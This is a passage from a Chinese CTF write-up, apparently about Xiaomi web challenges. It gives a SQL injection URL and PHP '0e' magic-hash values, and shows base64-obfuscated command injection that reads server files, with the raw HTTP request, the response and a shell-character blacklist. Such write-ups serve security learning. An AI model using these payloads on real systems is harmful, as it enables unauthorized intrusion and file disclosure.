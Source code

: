 1. 年龄等于999，这怎么可能。可以在sql后面通过union all的方式补充一条假的数据 `%1$'  union all select 1, 999 #`
2. password和password1的值不相等，但是md5运算却相等。刚开始想到了md5碰撞，但是后来想了想不应该这么复杂，就发现了PHP有个隐式转换的缺陷，PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。 构造例子 QNKCDZO 240610708 当然，安全的比较方法是三个=，也就是“===”。

完成以上所有的点之后，最终构造出来的url就有了。请求获取flag

```text
https://sqli-ctfd.dun.mi.com/index.php?username=%1$' union all select 1, 999 %23&age=999&password=QNKCDZO&password1=240610708
```

### web-21 一个网络测试工具

这个题目传递一个ip参数，会对这个参数执行ping命令。想到了后端是不是使用了命令拼接直接交个shell执行。尝试分隔命令，引入自己的命令。

试了几个分隔符都不行，而且使用了黑名单的分隔符会出现禁止访问的页面。（试分隔符卡了好久。。。）

忽然想到ip的内容会回显到页面，可不可以通过二次运算的方式让执行命令的结果通过ping命令的报错回显出来。按照这个思路配合base64编码绕过字符检测，成功获取到了文件内容。

```text
// cat index.php
$($(base64 -d <<< Y2F0IGluZGV4LnBocA==))

// cat /etc/getflag.php
$($(base64 -d <<< Y2F0IC9ldGMvZ2V0ZmxhZy5waHA=))
```

可以看一下被困扰了好久的庐山真面目：

```text
GET /?ip=%24(%24(base64%20-d%20%3c%3c%3c%20Y2F0IGluZGV4LnBocA%3d%3d)) HTTP/2
Host: vul-php1-ctf.dun.mi.com

HTTP/2 200 OK
Date: Thu, 11 May 2023 12:16:22 GMT
Content-Type: text/html; charset=UTF-8
Server: MonKing/3.14
Xiaomi-Security-Center: if any vulnerability found, go https://sec.xiaomi.com
X-Proxy-Node: 6DFF018CAF79FBEC

ping: IDN encoding of ''<?php<br />
#flag在/etc/getflag.php<br />
if (isset($_GET['ip'])) {<br />
    $ip = $_GET['ip'];<br />
    $in_ip = escape_shell_arg($ip);<br />
    $ping_result = run_with_timeout("ping -c 2 \"$in_ip\"", 4);<br />
    echo nl2br($ping_result);<br />
} else {<br />
    echo "请传递 ip 参数！";<br />
}<br />
<br />
function escape_shell_arg($arg) {<br />
    // 对字符串中的单引号、双引号、&、|、;、`等字符进行过滤<br />
    if (preg_match("/['\"&|;`]/", $arg)) {<br />
        http_response_code(403);<br />
        exit;<br />
    }<br />
<br />
    return escapeshellarg($arg);<br />
}<br />
<br />
function run_with_timeout($cmd, $timeout) {<br />
    $output = null;<br />
    $pipes = null;<br />
<br />
    // 创建一个子进程并执行命令<br />
    $process = proc_open($cmd, [['pipe', 'r'], ['pipe', 'w'], ['pipe', 'w']], $pipes);<br />
```